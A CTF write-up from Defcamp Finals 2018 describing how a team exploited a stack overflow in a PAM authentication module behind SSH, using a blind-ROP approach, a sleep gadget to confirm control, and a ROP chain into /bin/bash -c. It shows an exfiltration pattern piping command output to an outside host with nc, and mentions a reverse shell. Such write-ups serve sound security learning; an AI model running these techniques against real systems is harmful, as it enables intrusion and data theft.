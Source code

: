 ```yaml
---
title: "Defcamp Finals 2018 - UltraSecure (pwn)"
description: ""
pubDate: 2018-11-09
tags: [ctf, pwn]
---
```


> 142.93.107.255 (Solves: 3, ~400 pts)
>
> [UltraSecure.so][bin1] [UltraSecure-2.so][bin2] [+auto.py][auto]

In this challenge, we are presented with a `UltraSecure.so` shared object file (later updated by the authors to UltraSecure-2.so), and challenge server ip without a port. This is quite puzzling as generally I expect a binary and a port to be provided in a pwn challenge. Naturally, I decided to find out the port for this service first, so I ran a simple nmap scan to discover the open ports. There weren't many open ports from the results and what stands out is the open ssh port.
```
PORT    STATE    SERVICE
22/tcp  open     ssh
```

## Quick Glance
Upon quick reversing of the .so file we are provided with, it seems that it only implements three functions `pam_sm_authenticate`, `pam_sm_acct_mgmt`, `pam_sm_setcred` (In the updated binary there is a bit more, but these are the functions that matter). Upon quick googling you'll realise that these functions are used for authentication of user logins.
```
PAM_SM_AUTHENTICATE(3)        Linux-PAM Manual        PAM_SM_AUTHENTICATE(3)

pam_sm_authenticate - PAM service function for user authentication
```
Now the challenge is starting to make more sense, since the SSH service is running on the challenge server, and it's likely loading this shared object, we have to exploit the authentication during the SSH connection. Looking at the binary, the bug is very trivial, it's a `memcpy` (originally was `strcpy`) of user input into a stack buffer without any bounds checking, thus we can essentially overflow the stack as much as we wish.

In the password check for authentication, our user-given password copied on to the stack buffer is compared with a very large string of "A"s. 

```C
if ( !strcmp(
      &dest,
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAA") )
result = 0LL; // 0 = authentication pass
```

The number of "A"s in the correct password is such that if we were to provide a correct password that gives return result of 0, our saved RIP on the stack will be overwritten. Thus it doesn't matter if our return value is correct since it will segfault upon return to a bad address. If we were provided with a binary (and there is no PIE), it would be pretty easy to form a ROP chain and pop our shell or read the flag, however since we do not have a binary, our options are limited.

## BeeROP
From our previous constraints, this challenge immediately reminded me of BROP(Blind ROP), a technique that uses brute-force and clever logic to find gadgets and perform ROP without having access to the binary. I've never done the technique but I was familiar with the idea after reading about it in the past. One idea in BROP is brute-forcing the stack canary. The idea is that if the stack canary is unknown but constant throughout executions, we could bruteforce one byte at a time, when the binary doesn't throw an error, then we've hit the correct byte. In this case, there are no stack canaries but we could apply the same idea to bruteforce return addresses on the stack, this would give us a leak in those respective pages. If we got the byte wrong, the ssh connection would immediately drop, if we hit the correct byte, the ssh prompt will request for a password again as our password provided was wrong. For `pam_sm_authenticate`, I believe that it was being called by `pam_authenticate` from `libpam.so`, thus if we bruteforce this address, we could perform ROP using gadgets from that file. However, this had multiple issues or assumptions required.

1. No ASLR
	- In order to bruteforce the canary, the canary must be constant across executions. Likewise, when we want to bruteforce this return address, we need the address to be constant throughout different executions, if not we would never be able to bruteforce the value.

2. Same libpam.so
	- Assuming we did get a leak from the `libpam.so`, we would still need to find gadgets and functions that we can call, finding their addresses relative to our leak. In order for this to work, we need to be have the same `libpam.so` that the server is running. Since I was not familiar with this file, I wasn't confident about ROPing with it.

3. Noob python
	- We couldn't figure out how to script it properly. It is surprisingly difficult to script SSH authentications.

With all these issues, I decided to drop the challenge and pivot to working on the web challenges. Meanwhile, my teammate for this finals [FetchDex][fedex] continued to work on the challenge as he was determined to solve it.

## Back at it 
After I had solved a web challenge and a "good night's sleep"(on a beanbag), FetchDex managed to get a local copy of the same OpenSSH version installed, meaning we may have the correct binary (same one as the one running on the server). Additionally, after playing some meta-CTF, I google'd the challenge author's github and found an interesting [repository][github] about PAM modules. This helped us to link the module and was useful for debugging and such. Thus I continued to work together with FetchDex on this challenge.

## Sleepy pwnable
Although we did compile the same version of OpenSSH locally, being a skeptic, I was doubtful that our resultant binary was exactly the same as the one running on the server. This usually isn't a big deal, but for ROPing, a small different could mean that all our gadgets are taken from the wrong addresses, if the compiler were to just sneeze during compilation, our exploit would be gone. Sleep-deprived pwners need sleep, and so do the pwnables. In order to test whether we could effectively control RIP and go to the gadgets in the `sshd` (OpenSSH) binary, I needed some indication that the gadget has been run. Initially, I had chosen some `printf()` gadgets that should print to stdout, but since we were connecting with the `ssh` tool, it seems that we couldn't see any of that output, either the server doesn't send it or our client doesn't display it. Instead, as I've been foreshadowing, I found a `sleep(some_big_number)` gadget. This is a much more telling gadget as we can see an indication that this is running when the interactive session pauses for a long time after we send our malicious password. Fortunately, the sleep trick worked both locally and remotely, a strong indicator that our offsets are either exactly the same or good enough for our uses.

## ROP master
After knowing that we can call gadgets from the `sshd` binary, we were equipped to win. We formed a quick `execv("/bin/sh", 0)` ROP chain, hoping it would work. Unfortunately, the ROP chain executed but we would not be able to interact with it through the SSH client we were using. This got us for a while and I was ready to give up.

Later on, we moved to a slightly different idea. This challenge reminded me of MeePwn CTF challenge where we could execute shellcode on their server but we had no interactive access. In the end, I ran a `/bin/bash -c` shellcode, using a reverse shell as an argument. This easily gives us a reverse shell that we can use to interact with the server, even though the original binary doesn't permit an interative session for us. With the gadgets we had, we could possible pull off a `/bin/bash -c` too. However, a big issue was that we needed to get the strings like "/bin/bash", "-c" and our command in memory. Since we do not have proper interactive access, we can't use something like `read(0, bss, 1000)` to read our strings to some known writable address. Since the CTF was ending soon, I decided not to look for a perfect solution, but to look for a solution that might work. Therefore, I randomly made the assumption that ASLR was disabled. If ASLR was disabled, this would be very useful for us as we have certain heap buffers that we can control. If ASLR is disabled, these heap buffers would always be at the same place (mostly), meaning our exploit can work. We confirmed this with the organisers later.
* Note: After reading a nice [writeup][writeup] from the other team, I now realise that we did not need to make this as an assumption. Since `sshd` is something like a fork server, the addresses would not be re-randomised everytime so it's not too bad.

Moving on, since we can control the heap buffers, we can simply form a ROP chain that will allow us to call `exec("/bin/bash", argv)`, where `argv = ["/bin/bash", "-c", "arbitrary_command"]`. This ROP chain worked and we were able to get input from the server with commands like `ls | nc our_server 1337`. However, I don't know why it didn't occur to me during the CTF, but we were using `some_command | nc our_server 1337` repeatedly with different commands. And since the heap addresses did change slightly every once in awhile, the script only worked once every ~30 times, thus this was very slow. In hindsight, I should have just ran a single command that would create reverse bash shell back to my remote server, we would have gotten the flag a lot earlier had I realised this. Eventually, we got the flag quite soon to the end of the CTF. A nice way to end.

`DCTF{f646115ce24bada814d949b254a3b0b7858551e07df7235bd20e6b92834fd023}`

## Post-CTF
We(HATS Singapore) ended the CTF in 12th place of 17 finalist teams. This CTF was the first time I've talked to most of my teammates in real life and it's been an interesting experience thus far. Being our first onsite CTF playing as a team, I'm quite proud of how we faired in this CTF even though it may not be objectively the greatest placing.
![screenshot][ss]



[bin1]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure.so
[bin2]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure-2.so
[auto]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/auto.py
[fedex]:https://twitter.com/FetchDEX
[github]:https://github.com/NitescuLucian/simple-pam
[writeup]:https://github.com/Inndy/ctf-writeup/tree/master/2018-d-ctf-final/ultimate-secure
[ss]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/ss.png